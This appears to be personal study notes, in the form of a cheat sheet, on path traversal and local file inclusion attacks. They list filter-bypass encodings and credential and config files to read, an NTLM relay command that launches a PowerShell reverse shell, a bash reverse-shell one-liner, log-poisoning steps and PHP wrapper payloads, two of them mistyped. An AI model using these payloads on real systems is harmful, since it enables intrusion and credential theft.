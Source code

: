 ```yaml
---
layout: blank
pagetitle: Path Traversal Attacks
---
```


**Path Traversal with Other Returned Content Types**
- Sometimes the app will return something like `/etc/passwd` in `image/jpeg` format
  - Firefox does NOT like this and will not show the contents of the image, instead displaying an error
    - Viewing the network request has a similar result
  - Thus, must be viewed via something showing the raw response (like burp or curl)

**Bypassing traversal defenses**
- Try using absolute paths
- Try using `....//` if `../` is stripped
- Try encoding the data for forms (which often automatically strip the attempts):
  - `%2f` for `/` and `%2e` for `.` 
  - `%252f` for `%2f` and `%252e` for `%2e` (double encoded)
- Alternative encodings may also work
  - `..%c0%af` is `..`, `..%ef%bc%8f` is `.. ／ `
- Try using `%00` or `%0a` to bypass required endings
  - e.g. `/etc/passwd%00.png`

**Windows Directory Traversal**
- Test Windows traversal with `C:\Windows\System32\drivers\etc\hosts` (if win.ini not working)
- DT to system access on Windows:
	- Look in home directories for `.ssh`
	- IIS server: 
		- `C:\inetpub\logs\LogFiles\W3SVC1\` is logs
		- `C:\inetpub\wwwroot\web.config` - config w/ potential creds
- Also, if we can pass IPs, use for stealing NTLM hash
	- `sudo impacket-ntlmrelayx --no-http-server -smb2support -t {relay_target_IP} -c "powershell -enc {reverse_shell}"`

**File Inclusion**
- Different from directory traversal - directory traversal refers to simply retrieving contents, whereas LFI means the contents of the file are executed
- LFI example attack path
	- Can access local files with ?page=
	- Apache's /var/log/apache2/access.log logs the HTTP User Agent of everyone connecting
	- Thus, we can connect to a site with php code in our User Agent, poisoning the log, and view the access log with the LFI, resulting in the code executing
	- Can turn into a reverse shell with `bash -i >& /dev/tcp/{IP}/4444 0>&1`
		- If executed with Bourne Shell, we can prepend `bash -c` to ensure shell uses bash
- PHP wrappers can be used to display PHP when it would have otherwise executed
	- php://filter/convert.base64-encode/resouce=admin.php
	- data:// wrapper can be used for code execution
		- `data://text/plain,<php echo system('ls'); ?>` in an LFI could cause RCE
		- b64 version: `data://text/plain;base64,`
- Remote File Inclusion - very similar, but rare - passing PHP file as an HTTP link
- Things to include will vary from app to app, so search it up
  - For example, in a NextJS app:
    - `{../}app/package.json`
    - `{../}app/.env`
    - `{../}app/.next/server/middleware-manifest.json`
    - We can also get compiled routes, such as next auth:
      - `{../}app/.next/server/pages/api/auth/%5B...nextauth%5D.js`
